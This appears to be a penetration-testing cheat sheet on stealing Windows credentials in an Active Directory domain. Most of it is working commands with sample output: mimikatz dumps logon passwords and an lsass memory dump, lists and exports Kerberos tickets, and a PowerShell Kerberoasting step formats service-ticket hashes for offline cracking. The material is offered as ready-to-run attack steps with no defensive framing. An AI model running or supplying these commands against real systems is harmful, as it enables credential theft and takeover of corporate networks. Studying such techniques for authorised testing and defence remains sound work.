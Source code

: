 
### Mimikatz

#### Password Hashes

To get password hashes on windows, we can use [mimikatz](https://github.com/gentilkiwi/mimikatz)

Then in mimikats:

```sh
c:\Tools\active_directory>mimikatz.exe

  .#####.   mimikatz 2.1.1 (x86) built on Mar 25 2018 21:00:57
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
```

or

```sh
sekurlsa::minidump C:\Users\%USERNAME%\Documents\lsass.DMP
```

#### Tickets [Ticket Granting Ticket / Ticket Granting Service]

TGT can request for TGS for resources wanted in domain

```sh
sekurlsa::tickets
```

### Display kerberos service ticket

```powershell
PS C:\Windows\system32> Add-Type -AssemblyName System.IdentityModel
PS C:\Windows\system32> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWe
bServer.corp.com'

Id                   : uuid-393f01fe-efad-46c9-a875-8ddc9eb96828-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 5/29/2020 8:30:02 PM
ValidTo              : 5/30/2020 6:26:32 AM
ServicePrincipalName : HTTP/CorpWebServer.corp.com
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

# can alternatively use klist command 
PS C:\Windows\system32> klist

# or inside mimikatz to export into files to be downloaded to attack machine:
mimikatz # kerberos::list /export

# Or use Invoke-kerberoast
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat john | Select-Object -ExpandProperty hash |% {$_.replace(':',':$krb5tgs$23$')}
```
